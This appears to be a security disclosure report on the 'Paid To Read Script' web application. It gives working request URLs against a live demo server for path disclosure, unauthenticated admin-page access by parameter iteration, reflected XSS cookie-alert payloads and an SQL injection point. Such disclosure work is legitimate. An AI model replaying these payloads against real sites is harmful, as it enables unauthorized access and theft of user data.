 ### Paid To Read Script  SQL Injection/XSS/Unauthorized access/Sensitive information leak

#### ADLab of Venustech


Well, when I pentest the official demo site of Paid To Read Script, I found some vulnerabilities here.


#### Sensitive information leak

When you visit the some page with wrong or invalid parameter value, you can get some sensitive information like absolute-path without login.

```
http://74.124.215.220/~paioread/admin/userview.php?uid=3

http://74.124.215.220/~paioread/admin/userview.php?uid=12%27

Get absolute-path:
/home/paioread/public_html/admin/userview.php
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/info_leak.png)


#### Unauthorized access:

For example, we can vist some admin panel webpages easily , without login into the admin panel.

By the way, we can try to iter the parameter values , then get those important sensitive user informations in the database easily.


Key parameter: "fn"
```
http://74.124.215.220/~paioread/admin/viewvisitcamp.php?fn=7
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access1.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access2.png)


Key parameter: "uid"
```
http://74.124.215.220/~paioread/admin/userview.php?uid=13
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access3.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access4.png)


#### xss:

There're some reflect-xss in this system, for example:

http://74.124.215.220/~paioread/referrals.php?id=10&tier=1%27%22%3E%3Csvg/onload=alert(document.cookie)%3E%3C%27%22

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/xss1.png)

http://74.124.215.220/~paioread/admin/userview.php?uid=13%27%22%3E%3Csvg/onload=alert(document.cookie)%3E%3C%27%22

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/xss2.png)



#### SQL Injection:


Key parameter: "id"

```
http://74.124.215.220/~paioread/referrals.php?id=10&tier=1
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/sqli.png)

You can see,  we can obtain the current database user or more sensitive data now!


